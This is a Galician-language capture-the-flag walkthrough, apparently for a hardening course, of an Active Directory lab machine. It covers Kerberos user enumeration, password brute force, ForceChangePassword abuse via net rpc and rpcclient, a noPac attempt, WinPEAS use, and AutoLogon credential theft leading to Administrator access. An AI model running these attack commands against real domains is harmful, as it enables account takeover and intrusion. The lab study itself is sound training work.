





Change
A máquina Change é moi interesante porque...
- Active Directory Domain Controller (Windows Server 2019)
- Dominio: megachange.nyx
- Enumeración de usuarios mediante Kerberos con NetExec
- Forza bruta sobre usuario [usuario1]
- Sen acceso directo por WinRM, psexec ou wmiexec
- Enumeración de Active Directory con bloodhound-python
- Sincronización horaria con ntpdate (Kerberos clock skew)
- Análise con BloodHound: privilexio ForceChangePassword
- Cambio de contrasinal de [usuario2] con net rpc
- Acceso con Evil-WinRM como [usuario2]
- Privilexio SeMachineAccountPrivilege (noPac non funciona)
- Enumeración con WinPEAS
- Descubrimento de credenciais de AutoLogon
- Acceso como Administrator
Diagrama de ataque

Fase 1 – Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Change -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -A -vvv -Pn --min-rate 5000 IP_VulNyx_Change -oX nmap.xml
Resultado do escaneo:
Identificación de Domain Controller con portos típicos:
- Porto 53: DNS
- Porto 88: Kerberos
- Porto 135: MSRPC
- Porto 139/445: SMB/NetBIOS
- Porto 389/636: LDAP/LDAPS
- Porto 3268/3269: Global Catalog
- Porto 5985: WinRM
Información do sistema:
- Host: CHANGE
- Domain: megachange.nyx
- OS: Microsoft Windows Server 2019
Fase 2 – Análise
Configuración do ficheiro hosts
# Engadir dominio ao /etc/hosts
echo "IP_VulNyx_Change megachange.nyx change.megachange.nyx" | sudo tee -a /etc/hosts
Verificación con NetExec
Saída:
SMB IP_VulNyx_Change 445 CHANGE [*] Windows 10 / Server 2019 Build 17763 x64 (name:CHANGE) (domain:megachange.nyx) (signing:True) (SMBv1:False)
Tentativas de acceso anónimo
# Intentar acceso anónimo a SMB
smbclient -L //IP_VulNyx_Change -N
# Intentar enumeración con smbmap
smbmap -H IP_VulNyx_Change
# Intentar RPC con acceso nulo
rpcclient -U '' -N IP_VulNyx_Change
rpcclient $> enumdomusers
Resultado:
smbclient: NT_STATUS_ACCESS_DENIED
smbmap: [!] Authentication error on IP_VulNyx_Change
rpcclient: NT_STATUS_ACCESS_DENIED
Conclusión: Non hai acceso anónimo a SMB nin RPC. Necesitamos outro vector de ataque.
Enumeración de usuarios mediante Kerberos
Estratexia:
Kerberos permite verificar se un usuario existe sen necesidade de contrasinal, baseándose nas respostas de erro do KDC (Key Distribution Center).
Tipos de respostas:
KDC_ERR_PREAUTH_FAILED: Usuario existe pero contrasinal incorrectaKDC_ERR_CLIENT_REVOKED: Usuario existe pero está deshabilitadoKDC_ERR_C_PRINCIPAL_UNKNOWN: Usuario non existe
Preparar wordlists:
# Descargar wordlist grande de usuarios
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
Enumeración con NetExec:
# Enumerar usuarios con wordlist grande
netexec ldap IP_VulNyx_Change \
-u xato-net-10-million-usernames.txt \
-p '' \
-k | grep -vi UNKNOWN
Saída:
LDAP IP_VulNyx_Change 389 CHANGE [*] Windows 10 / Server 2019 Build 17763 (name:CHANGE) (domain:megachange.nyx)
LDAP IP_VulNyx_Change 389 CHANGE [-] megachange.nyx\guest: KDC_ERR_CLIENT_REVOKED
LDAP IP_VulNyx_Change 389 CHANGE [-] megachange.nyx\[usuario1]: KDC_ERR_PREAUTH_FAILED
LDAP IP_VulNyx_Change 389 CHANGE [-] megachange.nyx\administrator: KDC_ERR_PREAUTH_FAILED
LDAP IP_VulNyx_Change 389 CHANGE [-] megachange.nyx\change: KDC_ERR_PREAUTH_FAILED
LDAP IP_VulNyx_Change 389 CHANGE [-] megachange.nyx\Guest: KDC_ERR_CLIENT_REVOKED
LDAP IP_VulNyx_Change 389 CHANGE [-] megachange.nyx\Administrator: KDC_ERR_PREAUTH_FAILED
LDAP IP_VulNyx_Change 389 CHANGE [-] megachange.nyx\[USUARIO1]: KDC_ERR_PREAUTH_FAILED
LDAP IP_VulNyx_Change 389 CHANGE [-] megachange.nyx\[usuario2]: KDC_ERR_PREAUTH_FAILED
Usuarios válidos identificados:
[usuario1]/[USUARIO1]administrator/Administratorchange[usuario2]guest/Guest(revogado)
Fase 3 – Explotación
Forza bruta sobre [usuario1]
# Preparar lista de contrasinais
head -5000 /usr/share/wordlists/rockyou.txt > 5000-rockyou.txt
# Ataque de forza bruta sobre [usuario1]
netexec smb IP_VulNyx_Change -u '[usuario1]' -p 5000-rockyou.txt -t 200
Saída:
Credenciais de [usuario1]:
- Usuario:
[usuario1] - Contrasinal:
[contrasinal1]
Verificación de credenciais
Saída:
SMB IP_VulNyx_Change 445 CHANGE [*] Windows 10 / Server 2019 Build 17763 x64 (name:CHANGE) (domain:megachange.nyx) (signing:True) (SMBv1:False)
SMB IP_VulNyx_Change 445 CHANGE [+] megachange.nyx\[usuario1]:[contrasinal1]
Tentativas de acceso remoto
Evil-WinRM
Resultado: Non autenticapsexec
#Intentar psexec
impacket-psexec MEGACHANGE/[usuario1]:[contrasinal1]@IP_VulNyx_Change
[*] Requesting shares on IP_VulNyx_Change.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
smbexec
# Intentar smbexec
impacket-smbexec MEGACHANGE/[usuario1]:[contrasinal1]@IP_VulNyx_Change
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
wmiexec
# Intentar wmiexec
impacket-wmiexec MEGACHANGE/[usuario1]:[contrasinal1]@IP_VulNyx_Change
[-] rpc_s_access_denied
Conclusión: Non temos acceso remoto directo, pero podemos enumerar LDAP
Fase 4 – Post-Explotación
Instalación de ferramentas necesarias
# Instalar ntpdate para sincronización horaria
sudo apt -y install ntpsec-ntpdate
# Instalar bloodhound-python
pip3 install bloodhound
Sincronización horaria con ntpdate
Información sobre Kerberos Clock Skew
Que é Clock Skew?
Clock Skew refírese á diferenza de tempo entre o cliente e o servidor Kerberos (DC).
Límite por defecto:
- Máximo 5 minutos de diferenza
- Configurable en
MaxClockSkew(Group Policy)
Por que é importante?
- Prevención de replay attacks
- Os tickets Kerberos teñen timestamps
- Se a hora é moi diferente, os tickets son invalidados
Erro común:
Solución:
Problema: Kerberos require sincronización horaria (máximo 5 minutos de diferenza)
Saída:
Saída:
2025-11-13 04:21:39.581184 (+0000) +32397.956582 +/- 0.000517 IP_VulNyx_Change s1 no-leap
CLOCK: time stepped by 32397.956582
Saída:
Hora sincronizada correctamente (diferenza de ~9 horas corrixida)
Execución de bloodhound-python
# Recoller datos con bloodhound-python
bloodhound-python -c All \
-u '[usuario1]' \
-p '[contrasinal1]' \
-ns IP_VulNyx_Change \
-d megachange.nyx
Saída (despois de sincronización horaria):
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: megachange.nyx
INFO: Getting TGT for user
INFO: Connecting to LDAP server: change.megachange.nyx
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: change.megachange.nyx
INFO: Found 6 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CHANGE.megachange.nyx
INFO: Done in 00M 00S
Ficheiros JSON xerados no directorio actual
Diferenzas entre SharpHound e bloodhound-python
SharpHound (Windows):
- Executable .NET para Windows
- Require acceso directo á máquina
- Recóllese máis información (sesións activas)
- Xerase ficheiro ZIP
bloodhound-python (Linux):
- Script Python para Linux
- Traballa remotamente mediante LDAP
- Non require acceso á máquina
- Xera ficheiros JSON directamente
- Non recolle sesións activas
Vantaxes de bloodhound-python:
- Execútase desde Kali
- Non require upload de ferramentas
- Útil cando non temos shell
- Ideal para enumeración sen detección
Instalación e configuración de BloodHound
Instalar Neo4j e BloodHound:
# Actualizar sistema
sudo apt update
# Instalar Neo4j
sudo apt install -y neo4j
# Instalar BloodHound
sudo apt install -y bloodhound
Configurar Java 11 (necesario para Neo4j):
# Ver versións de Java dispoñibles
sudo update-alternatives --config java
# Seleccionar Java 11
# Selection: 1 (/usr/lib/jvm/java-11-openjdk-amd64/bin/java)
There are 2 choices for the alternative java (providing /usr/bin/java).
Selection Path Priority Status
------------------------------------------------------------
* 0 /usr/lib/jvm/java-21-openjdk-amd64/bin/java 2111 auto mode
1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode
2 /usr/lib/jvm/java-21-openjdk-amd64/bin/java 2111 manual mode
Press <enter> to keep the current choice[*], or type selection number: 1
Iniciar Neo4j:
Deixar esta terminal aberta e abrir outra terminal
Primeira execución de BloodHound:
Proceso de configuración inicial:
It seems it's the first time you run bloodhound
Please run bloodhound-setup first
Do you want to run bloodhound-setup now? [Y/n] Y
[*] Starting PostgreSQL service
[*] Creating Database
[*] Starting neo4j
Neo4j is running at pid 5416
[i] You need to change the default password for neo4j
Default credentials are user:neo4j password:neo4j
[!] IMPORTANT: Once you have setup the new password, please update /etc/bhapi/bhapi.json with the new password before running bloodhound
opening http://localhost:7474/
Cambiar contrasinal de Neo4j:
- Ábrese navegador en
http://localhost:7474/ - Login con:
neo4j/neo4j

- Cambiar contrasinal (exemplo:
abc123.)

Actualizar configuración de BloodHound:
Modificar o campo neo4j.secret:
Reiniciar servizos:
# Parar procesos
sudo pkill -f bloodhound
sudo pkill -f neo4j
# Iniciar Neo4j en background
sudo neo4j console &
disown
# Iniciar BloodHound
bloodhound
Interface web de BloodHound:
Ábrese automaticamente en: http://127.0.0.1:8080/ui/login
- Login con:
admin/admin

- Cambiar contrasinal na primeira autenticación
- Requisitos: mínimo 8 caracteres, maiúsculas, minúsculas, números


Subir datos a BloodHound
Na interface web de BloodHound:
- Ir a "Upload Data" (icona de nube)
- Seleccionar os ficheiros JSON xerados

- Ou arrastralos directamente á interface

- Esperar a que se procesen
Análise con BloodHound
Buscar usuario [usuario1]:
- Na barra de busca, escribir:
user:[usuario1]

- Seleccionar o nodo [USUARIO1]@MEGACHANGE.NYX

- Botón dereito → Set as Starting Node

Definir obxectivo
- En "Destination Node", escribir:
administrator@megachange.nyx - Seleccionar ADMINISTRATOR@MEGACHANGE.NYX

Resultado: Non se atopa ruta desde [usuario1] a administrator
Buscar outras rutas de ataque
Analizar usuario [usuario2] (descuberto na enumeración Kerberos):
- Buscar:
[usuario1] - Seleccionar [USUARIO2]@MEGACHANGE.NYX
- Botón dereito → Set as Starting Node
- Destination:
administrator@megachange.nyx
Resultado: Non se atopa ruta desde [usuario2] a administrator
Buscar relacións de [usuario1]
Analizar privilexios de [usuario1]:
- Seleccionar nodo [USUARIO1]@MEGACHANGE.NYX
- Destination:
[USUARIO2]@MEGACHANGE.NYX
Ruta identificada:

[usuario1] pode cambiar a contrasinal de [usuario2]
Seleccionar ForceChangePassword

Información sobre ForceChangePassword
Que é ForceChangePassword?
ForceChangePassword é un privilexio en Active Directory que permite cambiar a contrasinal doutro usuario sen coñecer a contrasinal actual.
Implicacións de seguridade:
- Non require a contrasinal antiga
- Non se rexistra como cambio de contrasinal estándar
- Útil para escalada de privilexios
- Permite tomar control de contas
Detección en BloodHound:
- Aparece como aresta "ForceChangePassword"
- Indica quen pode cambiar a contrasinal de quen
Abuso desde Linux:
# Opción 1: rpcclient
rpcclient -U 'DOMAIN/user%password' IP_DC
rpcclient $> setuserinfo2 target_user 23 'new_password'
# Opción 2: net rpc
net rpc password "target_user" "new_password" \
-U "DOMAIN"/"user"%"password" \
-S "IP_DC"
# Opción 3: bloodyAD (Python)
bloodyAD.py -u user -p password \
-d domain --host IP_DC \
set password target_user 'new_password'
Cambiar contrasinal de [usuario2] con net rpc
# Cambiar contrasinal de [usuario2]
net rpc password "[usuario2]" "abc123." \
-U "MEGACHANGE"/"[usuario1]"%"[contrasinal1]" \
-S "IP_VulNyx_Change"
Saída esperada:
Nova contrasinal de [usuario2]: abc123.
Verificación de credenciais
Acceso con Evil-WinRM
Saída esperada:
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sysadmin\Documents>
Obtención de flag de usuario
# Navegar ao Desktop
*Evil-WinRM* PS C:\Users\sysadmin\Documents> cd ..\Desktop
# Ler flag de usuario
*Evil-WinRM* PS C:\Users\sysadmin\Desktop> type user.txt
[FLAG_USER]
Flag de usuario conseguida
Verificar privilexios
Saída:
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
Privilexio identificado: SeMachineAccountPrivilege
Información sobre SeMachineAccountPrivilege
Que é SeMachineAccountPrivilege?
SeMachineAccountPrivilege permite engadir contas de ordenador ao dominio.
Vectores de ataque:
- noPac / Sam-the-Admin (CVE-2021-42278 e CVE-2021-42287)
- Crear conta de ordenador
- Manipular atributos
sAMAccountNameeservicePrincipalName - Obter TGT como DC
- Solicitar TGS como Administrator
Limitacións:
- Require configuración específica do dominio
- Parchado en moitas instalacións modernas
- Non sempre funciona
Tentativa de noPac
# Clonar repositorio noPac
git clone https://github.com/Ridter/noPac
cd noPac
# Executar noPac
python3 noPac.py megachange.nyx/sysadmin:'abc123.' \
-dc-ip IP_VulNyx_Change \
-shell \
--impersonate administrator \
-use-ldap
Resultado: Non funciona nesta máquina
Conclusión: Necesitamos outro vector de escalada
Escalada con WinPEAS
Prácticas Taller Microsoft Windows
Ferramentas de auditoría - Módulo Bastionado de redes e sistemas
# Descargar WinPEAS
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASx64.exe
# Desde Evil-WinRM, subir winPEAS
*Evil-WinRM* PS C:\Users\sysadmin\Documents> upload winPEASx64.exe
Info: Uploading /home/kali/winPEASx64.exe to C:\Users\sysadmin\Documents\winPEASx64.exe
Data: 13561172 bytes of 13561172 bytes copied
Info: Upload successful!
Execución de WinPEAS
Saída relevante:
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
Some AutoLogon credentials were found
DefaultDomainName : MEGACHANGE
DefaultUserName : administrator
DefaultPassword : [contrasinal3]
Credenciais de Administrator atopadas en AutoLogon:
- Usuario:
administrator - Contrasinal:
[contrasinal3]
Información sobre AutoLogon
Que é AutoLogon?
AutoLogon é unha funcionalidade de Windows que permite iniciar sesión automaticamente sen introducir credenciais.
Localización das credenciais:
Rexistro de Windows:
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
- AutoAdminLogon: 1
- DefaultUserName: usuario
- DefaultPassword: contrasinal
- DefaultDomainName: dominio
Por que é perigoso?
- Almacena contrasinais en texto claro no rexistro
- Calquera usuario con acceso local pode lelas
- Inclúe credenciais de Administrator
- Accesible mediante ferramentas como WinPEAS
Detección:
- WinPEAS detecta automaticamente
- Tamén con
reg querymanual - Bloodhound non detecta este tipo de credenciais
Acceso como Administrator con Evil-WinRM
Saída esperada:
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
Verificar acceso e obter flag de root
# Verificar usuario
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megachange\administrator
# Navegar ao Desktop
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
# Ler flag de root
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
[FLAG_ROOT]
Ambas flags conseguidas mediante ForceChangePassword e AutoLogon
Correspondencia de fases → MITRE ATT&CK – VulNyx: Change
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 – Active Scanning T1046 – Network Service Discovery |
CWE-200 – Information Exposure (reconnaissance) |
| Identificación de Domain Controller | Domain Controller discovery | T1018 – Remote System Discovery T1087.002 – Account Discovery: Domain Account |
CWE-200 – Information Exposure | |
| 2. Análise | Enumeración de usuarios mediante Kerberos | Kerberos enumeration | T1589.001 – Gather Victim Identity Information: Credentials T1087.002 – Account Discovery: Domain Account |
CWE-200 – Information Exposure |
| 3. Explotación | Forza bruta sobre [usuario1] | Brute force attack | T1110 – Brute Force T1110.001 – Brute Force: Password Guessing |
CWE-521 – Weak Password Requirements |
| Tentativas de acceso remoto (denegadas) | Remote access attempts | T1021.006 – Remote Services: Windows Remote Management T1569.002 – System Services: Service Execution |
N/A | |
| 4. Enumeración AD | Sincronización horaria con ntpdate | Time synchronization | T1070.006 – Indicator Removal: Timestomp | N/A |
| Execución de bloodhound-python | Active Directory enumeration | T1087.002 – Account Discovery: Domain Account T1069.002 – Permission Groups Discovery: Domain Groups |
CWE-200 – Information Exposure | |
| Análise con BloodHound | Attack path analysis | T1069 – Permission Groups Discovery T1087 – Account Discovery |
CWE-200 – Information Exposure | |
| Identificación de ForceChangePassword | Permission discovery | T1069 – Permission Groups Discovery T1087.002 – Account Discovery: Domain Account |
CWE-269 – Improper Privilege Management |